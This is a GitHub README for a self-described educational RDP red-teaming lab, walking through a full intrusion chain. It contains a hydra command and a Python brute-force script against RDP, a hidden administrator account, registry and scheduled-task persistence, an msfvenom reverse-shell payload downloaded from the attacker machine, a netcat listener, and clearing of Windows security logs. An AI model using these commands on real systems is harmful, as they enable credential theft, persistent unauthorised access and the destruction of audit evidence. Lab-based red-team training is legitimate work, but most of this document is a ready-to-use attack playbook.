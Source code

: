 Advanced RDP Red Teaming Lab

Disclaimer

> This project is for educational purposes only. All activities were conducted in a safe, isolated lab environment using virtual machines I own. Do not attempt this on any system you do not have explicit permission to test.




---

Table of Contents

Objective

Lab Setup

Recon & Scanning

RDP Brute-Force

Python Script

Access & Post-Exploitation

Privilege Escalation

Persistence

Backdoor Shell

Lateral Movement

Clean-Up

Reporting



---

Objective

Simulate a real-world red team operation by brute-forcing weak RDP credentials, then performing post-exploitation, persistence, and potential lateral movement on the compromised host.


---

Lab Setup


---

Recon & Scanning

Scan RDP port with Nmap:

nmap -p 3389 <target_ip>


---

RDP Brute-Force

Use hydra:

hydra -t 8 -V -l Administrator -P shortlist.txt rdp://<target_ip>

Or use the Python script below.


---

Python Script

import subprocess
import time

# Replace with your target IP and wordlist
target_ip = "192.168.56.101"
username = "Administrator"
wordlist_path = "shortlist.txt"
success_log = "rdp_success.txt"

def attempt_login(password):
    password = password.strip()
    command = [
        "xfreerdp",
        f"/u:{username}",
        f"/p:{password}",
        f"/v:{target_ip}",
        "/cert:ignore"
    ]
    try:
        result = subprocess.run(command, stdout=subprocess.PIPE, stderr=subprocess.PIPE, timeout=10)
        if b"connected" in result.stdout.lower():
            print(f"[+] SUCCESS: {password}")
            with open(success_log, "a") as f:
                f.write(f"{username}:{password}\n")
            return True
        else:
            print(f"[-] Failed: {password}")
    except Exception as e:
        print(f"[!] Error: {str(e)}")
    return False

with open(wordlist_path, "r", encoding="latin-1") as f:
    for line in f:
        password = line.strip()
        if attempt_login(password):
            break
        time.sleep(1)

Run with:

python3 rdp_bruteforce.py


---

Access & Post-Exploitation

xfreerdp /u:Administrator /p:<password> /v:<target_ip> /cert:ignore

Inside RDP Session:

whoami
hostname
ipconfig /all
systeminfo
dir /s /b C:\\Users\\*.txt


---

Privilege Escalation

Check permissions:

whoami /groups

Run WinPEAS/SharpUp for local exploits (upload via RDP). Look for:

AlwaysInstallElevated

Unquoted service paths

Weak service permissions



---

Persistence

Add hidden admin user:

net user sysadmin P@ssw0rd123 /add
net localgroup administrators sysadmin /add

Registry-based persistence:

reg add HKCU\Software\Microsoft\Windows\CurrentVersion\Run /v updater /t REG_SZ /d "C:\\rev.exe"

Scheduled Task:

schtasks /create /tn "Updater" /tr "C:\\rev.exe" /sc onlogon


---

Backdoor Shell

Generate backdoor:

msfvenom -p windows/x64/shell_reverse_tcp LHOST=<kali_ip> LPORT=4444 -f exe -o rev.exe
python3 -m http.server 80

Download in RDP:

powershell -c "Invoke-WebRequest -Uri http://<kali_ip>/rev.exe -OutFile C:\\rev.exe"

Execute & catch:

nc -lvnp 4444


---

Lateral Movement

net view /domain
net view \\<hostname>

Reuse dumped credentials to access other machines if available.


---

Clean-Up

Clear logs (not recommended unless simulating attacker evasion):

wevtutil cl Security
wevtutil cl System

Delete backdoors, users, and payloads.


---

Reporting

Document:

Entry vector

Credentials cracked

Privilege escalation method

Persistence mechanism

Tools/scripts used

Detection logs

Mitigation recommendations



---

.gitignore

*.log
*.pcap
*.cap
*.pyc
__pycache__/
*.vbox
*.vbox-prev
*.vdi
*.ova
*.ovf
.DS_Store
.idea/
.env
output/


---

End of README

